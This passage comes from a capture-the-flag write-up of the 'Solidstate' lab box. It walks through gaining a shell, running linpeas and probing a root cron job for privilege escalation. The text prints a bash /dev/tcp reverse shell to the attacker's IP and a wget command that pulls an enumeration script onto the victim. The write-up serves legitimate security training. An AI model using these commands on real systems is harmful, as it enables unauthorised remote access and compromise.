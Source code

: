 #### Exploit Payload

Lets use this payload

```bash -i >& /dev/tcp/10.10.14.35/8080 0>&1```

![Image](/assets/img/Solidstate/image_16.png)

![Image](/assets/img/Solidstate/image_17.png)

![Image](/assets/img/Solidstate/image_18.png)

Annnd we have our shell

![Image](/assets/img/Solidstate/image_19.png)

#### Post-Exploitation

Lets try accessing admin with this now

![Image](/assets/img/Solidstate/image_20.png)

We will still have to do some privesc, lets get linpeas on this and start enumerating for some vectors

We set up the server in the dir containing [linpeas.sh](http://linpeas.sh) with

```python3 -m http.server```

And then we use this command on the victim's machine to grab it

```wget [http://10.10.14.35:8000/linpeas.sh](http://10.10.14.35:8000/linpeas.sh)```

![Image](/assets/img/Solidstate/image_21.png)

Now lets run it (run it immediately, I noticed that files put in the tmp dir are being removed periodically)

![Image](/assets/img/Solidstate/image_22.png)

#### Privilege Escalation

Ok so there seems to be a cron job running under root, I’m not getting info on what is being run actually

![Image](/assets/img/Solidstate/image_23.png)

Lets run a more thorough scan with linEnum

[https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

![Image](/assets/img/Solidstate/image_24.png)

![Image](/assets/img/Solidstate/image_25.png)

This file is pretty interesting, it has root permissions but is writable to the user

![Image](/assets/img/Solidstate/image_26.png)

Lets check out the processes as well with pspy

[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)

```